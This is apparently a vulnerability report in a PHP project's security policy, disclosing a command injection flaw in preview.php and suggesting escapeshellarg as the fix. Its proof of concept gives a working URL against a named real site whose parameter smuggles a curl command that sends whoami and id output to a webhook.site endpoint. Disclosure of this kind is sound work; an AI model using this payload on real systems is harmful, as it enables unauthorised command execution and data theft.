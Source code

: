 # Security Policy


## Reporting a Vulnerability

The preview.php file have a commnad injection vuln, you can add an escapeshellarg to prevent it !  

vulnerable code:  
```php
system("/usr/bin/optipng " . $cachePath . " >/dev/null 2>/dev/null");
```


### PoC
![image](https://github.com/user-attachments/assets/707023f8-8c13-4c85-9d01-fa1a7e646a8a)

URL : [https://www.sandcomp.com/sandphoto/temp/preview-14-28-blue%20;%20curl%20https://webhook.site/c7cba25c-dc7b-4a19-be47-2ac1c3268450%20--data%20$(whoami%20;%20id).png](https://www.sandcomp.com/sandphoto/preview.php?t=14&c=28&b=blue%20;%20curl%20https://webhook.site/c7cba25c-dc7b-4a19-be47-2ac1c3268450%20--data%20$(whoami%20;%20id))

Result : 
![image](https://github.com/user-attachments/assets/8daf21b6-5f28-41f4-b8cc-407e73c7eeef)

